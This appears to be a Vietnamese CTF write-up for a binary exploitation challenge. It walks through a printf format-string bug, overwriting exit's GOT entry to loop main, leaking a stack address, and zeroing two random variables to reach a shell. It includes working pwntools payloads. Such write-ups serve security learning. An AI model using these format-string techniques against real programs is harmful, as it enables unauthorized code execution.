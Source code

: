 **1. Find bug**
- ![image](https://user-images.githubusercontent.com/113702087/212830477-eb4a7fe3-9e44-4ff4-84a0-fb858cedd99d.png)
- chương trình đọc dữ liệu từ urandom và ghi 2 byte vào 2 biến buf và v6.
- cho mk nhập name vào biến format và in ra bằng printf -> bug fmt
- và mình phải nhập 1 giá trị num sao cho bằng buf + v6 và sẽ thực thi được system("/bin/sh") còn không sẽ bị exit(0);
- ![image](https://user-images.githubusercontent.com/113702087/212831373-cc61b08a-7bc9-4556-8ace-1749096e81ee.png)
- checksec ta thấy RELRO: Partial RELRO do đó ta có thể ghi vào got ở đây là exit got để khi exit(0) được gọi thì thực thi lại hàm main 1 lần nữa.

**2. Exploit**
```
payload =  b'%4662c%15$hn%11$p'.ljust(24, b'\x00') + p64(exe.got['exit'])

r.sendafter(b'name:\n', payload)
r.sendlineafter(b'gift:\n', b'0')
print(r.recv())
print(r.recvuntil(b'l'))
out = r.recv(14)
print(out)

stack = int(out, 16)
print(hex(stack))
ran = stack - 192
print(ran)
```
- ta dùng %c để in ra 4662 ký tự đổi sang hex là 0x1236 ứng với 2 byte sau của main
- ![image](https://user-images.githubusercontent.com/113702087/212833894-2a0122ff-9975-476f-a4fa-6c879ab3b86a.png)
- dùng %n để ghi 0x1236 byte vào địa chỉ trong stack ở vị trí 15 ( với 64 bit thì đầu stack là vị trí thứ 6 ) -> vị trí thứ 15 là exit got mà ta đã ghi vào (0x404058)
- địa chỉ exit got có giá trị 0x4010b0 đã thành main và %p để leak địa chỉ biến ngay vị trí thứ 11 v7
- ![image](https://user-images.githubusercontent.com/113702087/213097343-eff67d2b-dd9f-4623-a146-2856454afd5e.png)
- ta leak địa chỉ v7 ta sẽ có giá trị của stack để khi lặp lại main ta sẽ tính ra được địa chỉ của buf và v6
- ![image](https://user-images.githubusercontent.com/113702087/212833970-a06cc8b0-09f9-4932-b0c9-e2ef7e5922e2.png)
```
payload =  b'%14$n%15$n'.ljust(16, b'\x00') + p64(ran) + p64(ran + 8)

r.sendafter(b'name:\n', payload)
r.sendlineafter(b'gift:\n', b'0')
```
- ![image](https://user-images.githubusercontent.com/113702087/212834045-6fa1ec39-afc6-4400-a0ac-26bfb096b60e.png)
- loop lại main lần 2 ta dùng %n để ghi đè 2 giá trị buf và v6 thành 0
- ![image](https://user-images.githubusercontent.com/113702087/212834116-f56beaa9-355f-4ce5-abc8-ad5cedf52589.png)
- getshell
- ![image](https://user-images.githubusercontent.com/113702087/212834446-bf7b57c6-54ba-462f-99b0-1ab59cf41cfd.png)

